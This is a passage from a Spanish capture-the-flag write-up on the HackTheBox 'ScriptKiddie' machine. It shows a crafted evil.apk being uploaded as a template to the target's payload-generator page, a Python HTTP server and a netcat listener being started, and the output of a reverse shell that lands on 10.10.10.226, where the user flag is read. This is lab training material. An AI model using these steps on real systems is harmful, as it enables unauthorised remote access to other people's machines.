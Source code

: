 El archivo se ha guardado en **/tmp/tmpv2wo4gko/evil.apk** lo paso a descargas para tenerlo más a mano, y le cambio propietario por tema de permisos con el navegador:

```sh
# Elimino primero el que ya estaba:
❯ rm /home/guise/Descargas/evil.apk
# Ahora si:
❯ mv /tmp/tmpv2wo4gko/evil.apk /home/guise/Descargas
❯ chown guise:guise /home/guise/Descargas/evil.apk
```

Vamos a la web y hacemos lo mismo que antes; en la sección payloads en os=android, en lhost podemos poner 127.0.0.1 (creo que valdría cualquier cosa) y en template file subiremos el apk creado con el anterior script de python3, el **evil.apk**. Antes de dar a "Generate" nos abrimos un servidor en python3, en el mismo directorio donde esté el index.html visto arriba. Y en otra terminal/consola nos ponemos en escucha:

```sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora si, demos a "Generate".

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.226] 33628
bash: cannot set terminal process group (838): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ ifconfig -a
ifconfig -a
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.226  netmask 255.255.255.0
... SNIP ...
```

Hemos obtenido una shell. Y como se puede ver estamos en el host objetivo **10.10.10.226**.

Obtengamos la primera flag:

```sh
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$ cd /home/kid
cd /home/kid
kid@scriptkiddie:~$ ls
ls
html
logs
snap
user.txt
kid@scriptkiddie:~$ cat user.txt
cat user.txt
40b8dc2eb36d67db46bfeef5c30b278d
```
